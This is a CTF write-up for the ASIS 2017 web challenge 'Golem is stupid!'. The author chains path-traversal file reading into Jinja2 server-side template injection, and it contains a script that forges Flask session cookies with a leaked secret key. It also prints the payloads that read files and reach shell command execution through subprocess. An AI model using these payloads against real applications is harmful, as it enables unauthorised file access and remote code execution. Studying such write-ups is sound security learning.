


+++
title="ASIS CTF - Web 1 - Golem is stupid!"
date="2017-09-10"
description="A web security challenge, where we have to exploit a functionality of jinja templates with in a python flask framework based web application"
author="Nagesh Podilapu"
[taxonomies]
tags=["ctf", "ssti", "web"]
+++

First of all thanks to ASIS team for organizing a great CTF! I enjoyed solving this challenge, and in the process of pwning I got to learn a lot of stuff. I'm going to explain everything in as much detail as possible.

They gave a web page running at https://golem.asisctf.com/ (Only lived until the competition lasted!)



All this app is doing is taking input and greeting us back with input and asking us to read an article (weird though!)



After looking into response headers it became evident that this app is running over an nginx server. After a few minutes of fiddling we managed to find an LFI at the article link.
Link is pointing to **https://golem.asisctf.com/article?name=article**, I tried path traversal on **name** parameter. And yes! we can read contents of well known files like **/etc/passwd** using this, but we don't know where the flag is, so we have to read source code of the server. In order to find where source is located we need to read nginx configuration. So, with **name=../../../../etc/nginx/nginx.conf** I was able to read contents of that file. 

```config
##
# Virtual Host Configs
##
## configs: default, golem
include /etc/nginx/conf.d/*.conf;
include /etc/nginx/sites-enabled/*;
```

So, now with **name=../../../etc/nginx/sites-enabled/golem**

```config
location / {
    uwsgi_pass golem;
    include uwsgi_params;
}

location /static/ {
    root /opt/serverPython/golem;
    expires 30d;
}
```

Now we know the root folder of this application which is **/opt/serverPython/golem**, with few educated guesses (main.py, init.py etc.) I found server.py in app root folder.

```python
#!/usr/bin/python
import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask.ext.session import Session

app = Flask(__name__)
execfile('flag.py')
execfile('key.py')

FLAG = flag
app.secret_key = key
@app.route("/golem", methods=["GET", "POST"])
def golem():
    if request.method != "POST":
        return redirect(url_for("index"))
    golem = request.form.get("golem") or None
    if golem is not None:
        golem = golem.replace(".", "").replace("_", "").replace("{","").replace("}","")

    if "golem" not in session or session['golem'] is None:
        session['golem'] = golem	
    template = None
    if session['golem'] is not None:
        template = '''{%% extends "layout.html" %%} {%% block body %%} <h1>Golem Name</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> {%% endblock %%} ''' % session['golem']
        print
        session['golem'] = None
    return render_template_string(template)

@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")

@app.route('/article', methods=['GET'])
def article():
    error = 0
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'
    if page.find('flag')>=0:
        page = 'notallowed.txt'
    try:
        template = open('/home/golem/articles/{}'.format(page)).read()
    except Exception as e:
        template = e

    return render_template('article.html', template=template)

if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=False)
```

So, this is a python flask framework based web app. And obviously eyes glazed over flag.py, but we can't read it as there is a condition in server.py which is not allowing us to read. Next candidate is key.py and using **name=../../../opt/serverPython/golem/key.py**

```python
key = "7h15_5h0uld_b3_r34lly_53cur3d"
```

## From LFI to RCE (Remote command execution)!

After a lot of struggle and search on internet I found an interesting attack vector named **SSTI(Server side template injection)**.

It's time for ExPl0itAti0N!

If you closely observe server.py (line 24), it uses a template engine(Jinja2 to be specific) to render html content, and in one of the template it is printing what ever is there in session (cookie in browser terms).

Now back to our SSTI, when user input some string like **\{\{ 2+3 \}\}**, jinja template engine will evaluate it and output the result(which is **5**). So now all we need to do is craft a session with some code to read flag.py.

Here comes the interesting part, this app uses flask Session class which gives us HMAC signed cookies using a secret key (server.py line 11), so that when someone sends edited cookie back to server, server will try and verify the signature. So one can't simply edit flask sessions. As we have secret_key with us (as we have already read key.py), we can create and sign sessions manually and send it to server for evaluation. So I quickly wrote a small script to generate crafted sessions and send it to server.

```python
import requests
from itsdangerous import base64_decode
from flask.sessions import SecureCookieSessionInterface
import HTMLParser

obtained_secret = "7h15_5h0uld_b3_r34lly_53cur3d"

class FlaskMockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key

def session_cookie_encoder(secret_key, session_cookie_structure):
    try:
        app = FlaskMockApp(secret_key)
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)

        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error]{}".format(e)

cookie_string_template = "_ga=GA1.2.23644687.1504890772; _gid=GA1.2.842114127.1504890772; session={0}"

while True:
	payload = raw_input("Enter payload> ")
	signed_cookie = session_cookie_encoder(obtained_secret, {"golem": payload})
	cookie_header = cookie_string_template.format(signed_cookie)
	custom_headers = {
		"Cookie": cookie_header,
		"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0"
	}
	response = requests.post("https://golem.asisctf.com/golem", data={"golem":"Hello"}, headers=custom_headers)
	required_output = response.text.split("Hello :")[1].split(", why you don't")[0]
	print HTMLParser.HTMLParser().unescape(required_output)
```

Here is the console output, in the above script I'm filtering server response to print only what we need.

```
Enter payload> {{2+3}}
5

Yay! it's evaluating :)


Enter payload> {{"hello".__class__}}
 <type 'str'> 

Here we go! a much better payload. This time we are trying to access class type of a string.


Enter payload> {{"hello".__class__.mro()}}
 [<type 'str'>, <type 'basestring'>, <type 'object'>]

This time we are asking **Method Resolution Order(MRO)** of a string, so when you call a method on string it searches in 'str' object then 'basestring' and so on.


Enter payload> {{"".__class__.mro()[2].__subclasses__()}}
 [<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, ...., <type 'file'>....]  //Most of the output is redacted as it's quite huge.

So, we selected object type as it's the base of all, and now asking what are all the subclasses are used by this web application. As you all can see there is a file object, guess what! now we can read and write files to file system. Yay! we can read flag.py, can't wait to do that.


Enter payload> {{"".__class__.mro()[2].__subclasses__()[40]("flag.py","r").read()}}

 flag = 'ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}'

Our flag is: **ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}**

Yeah! We do love Server Side Template Injection (SSTI) :)

My exploitation is not over, I want a shell kind of feel. Now our plan is to load a python function which can execute commands into config variable, then we will have a shell! :D


Enter payload> {{"".__class__.mro()[2].__subclasses__()[40]("/tmp/new.cfg","w").write("from subprocess import check_output\n\nRUNCMD = check_output\n")}}

 None

Now we are writing a python script into a file `/tmp/new.cfg`


Enter payload> {{ config.from_pyfile("/tmp/new.cfg") }}

True

Loading that file into config using the method `from_pyfile`


Enter payload> {{ config.items() }}

 [('JSON_AS_ASCII', True), ...., ('RUNCMD', <function check_output at 0x7f479d2131b8>), ...,('X_OK', 1)]

As you can see, our function with keyword 'RUNCMD' is happily sitting in config items!


Enter payload> {{config['RUNCMD']('/bin/cat flag.py', shell=True)}}

 flag = 'ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}'

There you go! I read the flag again, this time through a shell :D
```

**References**

[Exploring SSTI in Flask/Jinja2](https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2/)<br/>
[Flask Framework](https://flask.palletsprojects.com/en/2.2.x/)
 